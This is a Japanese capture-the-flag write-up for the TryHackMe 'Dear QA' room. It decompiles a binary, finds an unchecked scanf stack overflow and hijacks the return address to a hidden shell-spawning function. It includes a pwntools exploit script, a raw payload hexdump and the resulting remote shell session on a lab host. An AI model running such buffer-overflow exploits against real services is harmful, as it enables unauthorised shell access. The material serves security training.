 # Dear QA CTF

https://tryhackme.com/room/dearqa

実行ファイルをダウンロードできるようになっている。  
それを解析して攻撃する流れ。

## Ghidra

```c
undefined8 main(void)

{
  undefined local_28 [32];

  puts("Welcome dearQA");
  puts("I am sysadmin, i am new in developing");
  printf("What\'s your name: ");
  fflush(stdout);
  __isoc99_scanf(&DAT_00400851,local_28);
  printf("Hello: %s\n",local_28);
  return 0;
}
```

- `&DAT_00400851` は `"%s"`
- 入力データ長をチェックしていないので、スタックオーバーフローの脆弱性がある。
- strings で下記の文字列が含まれていた。

```
Congratulations!
You have entered in the secret function!
/bin/bash
```

探したら vuln 関数が見つかった。

```c
void vuln(void)

{
  puts("Congratulations!");
  puts("You have entered in the secret function!");
  fflush(stdout);
  execve("/bin/bash",(char **)0x0,(char **)0x0);
  return;
}
```

おめでとうメッセージとともに、bash を起動している。この関数の呼び出しを目指すことになる。

vuln 関数のアドレス：`0x00400686`

総合すると、スタックオーバーフローを利用して、リターンアドレスを vuln 関数のアドレスに書き換えたら、シェルを取得できると思われる。

## 5700 ポート

5700 ポートでサービスが稼働していると書かれていた。

```shell
$ nc 10.10.37.23 5700
Welcome dearQA
I am sysadmin, i am new in developing
What's your name: thm
thm
Hello: thm
```

## スタックオーバーフロー

実行ファイルにセキュリティ機構が適用されているか調べる。  
ほぼ無効になっている状態。

```shell
$ pwn checksec ./DearQA-1627223337406.DearQA
[*] '/home/kali/CTF/0410/DearQA-1627223337406.DearQA'
    Arch:       amd64-64-little
    RELRO:      No RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
```

main 関数でスタック配列 32 バイト確保され、RBP の 8 バイトを考慮すると、リターンアドレスは配列の先頭から見て 40 バイトの位置にある。

40 バイトから vuln()関数のアドレスにすれば良いと考え、

```
00000000  41 41 41 41  41 41 41 41   41 41 41 41  41 41 41 41                                       AAAAAAAAAAAAAAAA
00000010  41 41 41 41  41 41 41 41   41 41 41 41  41 41 41 41                                       AAAAAAAAAAAAAAAA
00000020  41 41 41 41  41 41 41 41   86 06 40 00  00 00 00 00                                       AAAAAAAA..@.....
```

下記のように nc コマンドとリダイレクトを試したが、上手くいかなかった。

```shell
$ nc 10.10.37.23 5700 < ./payload
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�^F@^@^@^@^@^@Welcome dearQA
I am sysadmin, i am new in developing
What's your name: ^C
```

pwn ライブラリ＋ Python スクリプト  
https://musyokaian.medium.com/dear-qa-tryhackme-walkthrough-1c0a76326f8e

```python
#!/usr/bin/env pyhon3
from pwn import *
import sys

host = "10.10.37.23"
port = 5700
context(terminal = ['tmux', 'new-window'])

binary = context.binary = ELF("./DearQA-1627223337406.DearQA")
context(os = "linux", arch = "amd64")
connect = remote(host, port)
log.info("[+] Starting buffer Overflow")
connect.recvuntil(b"What's your name: ")
log.info("[+] Crafting payload")
payload = b'A' * 40
payload += p64(0x00400686)
log.info("[+] Sending Payload to the remote server")
connect.sendline(payload)
connect.interactive()
```

```shell
$ python ./exploit.py
[*] '/home/kali/CTF/0410/DearQA-1627223337406.DearQA'
    Arch:       amd64-64-little
    RELRO:      No RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x400000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
[+] Opening connection to 10.10.37.23 on port 5700: Done
[*] [+] Starting buffer Overflow
[*] [+] Crafting payload
[*] [+] Sending Payload to the remote server
[*] Switching to interactive mode
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x86^F@^@^@^@^@^@
Hello: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x86\x06@
Congratulations!
You have entered in the secret function!
bash: cannot set terminal process group (447): Inappropriate ioctl for device
bash: no job control in this shell
ctf@dearqa:/home/ctf$ $ id
id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev),115(bluetooth)
```

シェルを取れた。

```shell
ctf@dearqa:/home/ctf$ $ cat /home/ctf/flag.txt
cat /home/ctf/flag.txt
THM{..................}
```

完了

## 振り返り

- ファイルリダイレクトでペイロードを送る方法は、nc の標準入力が payload ファイルになっているため、ターミナルでコマンドを打ったところでサーバーに送信されないため方針が悪かった。
- ただ、"Congratulations!"が表示されなかったことから、vuln 関数自体呼び出されていなかったと思われるが、正確な原因は不明。
